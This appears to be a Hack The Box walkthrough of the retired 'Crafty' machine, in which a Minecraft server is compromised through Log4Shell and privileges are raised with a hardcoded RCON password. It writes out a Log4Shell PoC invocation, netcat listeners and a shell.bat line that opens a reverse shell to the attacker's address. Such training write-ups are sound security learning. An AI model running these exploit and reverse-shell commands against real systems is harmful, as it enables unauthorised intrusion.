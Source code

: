 ```yaml
---
title: "HTB Walkthrough: Crafty"
date: 2024-08-09
categories: [pentesting]
tags: [HTB, Crafty, Minecraft, Log4Shell, Nmap, Privilege Escalation, Walkthrough]
author: Harmehar Kaur
image:
  path: /assets/pentest.jpg
  alt: 
---
```


## 🧠 Introduction

Crafty is all about exploiting a Minecraft server. Minecraft was notoriously vulnerable to **Log4Shell** due to its use of the Java Log4J package. I used a free Minecraft command line client to connect and send a Log4Shell payload to get a shell on the box. From there, I found a plugin for the Minecraft server and reversed it to find the administrator password. In the *Beyond Root* section, I examined the `web.config` file for the static website.

This retired HTB machine is an excellent one for beginners—it took me nearly 6 hours to capture the flags, and this writeup is for anyone who might find themselves stuck like I was.

---

## 🔍 Step 1: Reconnaissance

### Nmap Scan

**Nmap** (Network Mapper) is an open-source tool used for vulnerability scanning and network discovery.

```bash
sudo nmap -sV -p- --min-rate=10000 10.10.11.249
```

**Command Breakdown:**

- `sudo`: Run with root privileges
- `nmap`: The scanning tool
- `-sV`: Service version detection
- `-p-`: Scan all 65535 TCP ports
- `--min-rate=10000`: Send packets quickly
- `10.10.11.249`: Target IP

#### Result

Two open ports:

- Minecraft
- HTTP (httpd 10.0 – not vulnerable)

Minecraft 1.16.5 is vulnerable to **Log4j**, which we’ll exploit.

### Updating /etc/hosts

When accessing the IP in a browser failed, I edited the hosts file:

```bash
sudo nano /etc/hosts
```

Added:

```
10.10.11.249 crafty.htb
```

You may also add `play.crafty.htb`. Viewing the site source revealed nothing useful.

---

## 🕵️‍♂️ Understanding Log4Shell

**Log4Shell** (CVE-2021-44228) is a critical **RCE** vulnerability in Apache Log4j 2.

> "Log4Shell allows hackers to run virtually any code they want..." – IBM

Minecraft was directly impacted by this vulnerability.  
[See official statement from Minecraft](https://help.minecraft.net/hc/en-us/articles/4416199399693-Security-Vulnerability-in-Minecraft-Java-Edition)

---

## 🎮 Exploiting Minecraft Server

### Step-by-step:

```bash
wget https://github.com/MCCTeam/Minecraft-Console-Client/releases/download/20231011-230/MinecraftClient-20231011-230-linux-x64
mv MinecraftClient-20231011-230-linux-x64 mcli
chmod +x mcli
./mcli <any_name> "" 10.129.230.60
```

Press Enter when prompted for password.

### PoC for Log4Shell

Cloned PoC from GitHub and installed JDK.  
Used the following commands after downloading `jdk-8u20-linux-x64.tar.gz`:

```bash
tar xf jdk-8u20-linux-x64.tar.gz
rm jdk-8u20-linux-x64.tar.gz
```

Ran exploit:

```bash
python poc.py --userip 10.10.14.52 --webport 8000 --lport 443
```

### Issue and Fix

Default payload used `/bin/sh`, which doesn’t work on Windows.  
Changed to:

```java
String cmd = "cmd.exe";
```

### Set Up Listener

```bash
rlwrap -cAr nc -lnvp 443
```

🎉 A reverse shell was received!

---

## 🧑‍💻 Step 2: Getting the User Flag

Located at:

```plaintext
C:\Users\crafty\Desktop\user.txt
```

---

## 🧠 Step 3: Privilege Escalation

### Steps Taken:

1. Found 3 users – `Public`, `crafty`, and `Administrator`
2. `Public` was empty; `Administrator` looked promising
3. Decompressed and reversed a Minecraft plugin

Found hardcoded RCON password:

```java
Rcon rcon = new Rcon("127.0.0.1", 27015, "s67u84zKq8IXw".getBytes());
```

Used to access:

```plaintext
C:\inetpub\wwwroot\playercount.txt
```

---

### Gaining Root Access

Created files:

- `b64.txt`
- `shell.bat`:

```bat
@echo on
c:\windows\temp\nc64.exe 10.10.14.48 4444 -e cmd.exe
```

Set up a listener:

```bash
nc -lnvp 4444
```

Used:

```powershell
.\RunasCs.exe -l 2 administrator s67u84zKq8IXw "c:\temp\shell.bat"
```

Received Administrator shell. Retrieved:

```plaintext
C:\Users\Administrator\Desktop\root.txt
```

---

## ✅ Conclusion

- Crafted payload to exploit Log4Shell on Minecraft
- Gained user access
- Used plugin reverse engineering to elevate privileges
- Captured both flags

---
